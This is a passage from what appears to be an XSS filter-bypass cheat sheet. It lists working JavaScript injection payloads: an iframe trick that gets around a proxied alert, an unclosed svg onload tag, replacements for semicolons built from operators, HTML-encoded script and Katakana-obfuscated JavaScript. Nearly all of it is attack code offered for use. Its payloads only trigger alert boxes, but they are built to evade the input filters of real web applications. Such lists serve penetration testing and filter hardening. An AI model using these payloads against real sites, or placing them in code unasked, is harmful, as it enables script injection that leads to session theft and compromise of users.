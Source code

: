 Bypass using an alternate way to trigger an alert

```javascript
var i = document.createElement("iframe");
i.onload = function(){
  i.contentWindow.alert(1);
}
document.appendChild(i);

// Bypassed security
XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
      var proxy = obj[name];
      obj[name] = function () {
        if (exec_original) {
          return proxy.apply(this, arguments);
        }
      };
      XSSObject.lockdown(obj, name);
  };
XSSObject.proxy(window, 'alert', 'window.alert', false);
```

Bypass ">" using nothing #trololo (you don't need to close your tags)

```javascript
<svg onload=alert(1)//
```

Bypass ';' using another character

```javascript
'te' * alert('*') * 'xt';
'te' / alert('/') / 'xt';
'te' % alert('%') % 'xt';
'te' - alert('-') - 'xt';
'te' + alert('+') + 'xt';
'te' ^ alert('^') ^ 'xt';
'te' > alert('>') > 'xt';
'te' < alert('<') < 'xt';
'te' == alert('==') == 'xt';
'te' & alert('&') & 'xt';
'te' , alert(',') , 'xt';
'te' | alert('|') | 'xt';
'te' ? alert('ifelsesh') : 'xt';
'te' in alert('in') in 'xt';
'te' instanceof alert('instanceof') instanceof 'xt';
```

Bypass using HTML encoding

```javascript
%26%2397;lert(1)
```

Bypass using [Katakana](https://github.com/aemkei/katakana.js)

```javascript
javascript:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()
```
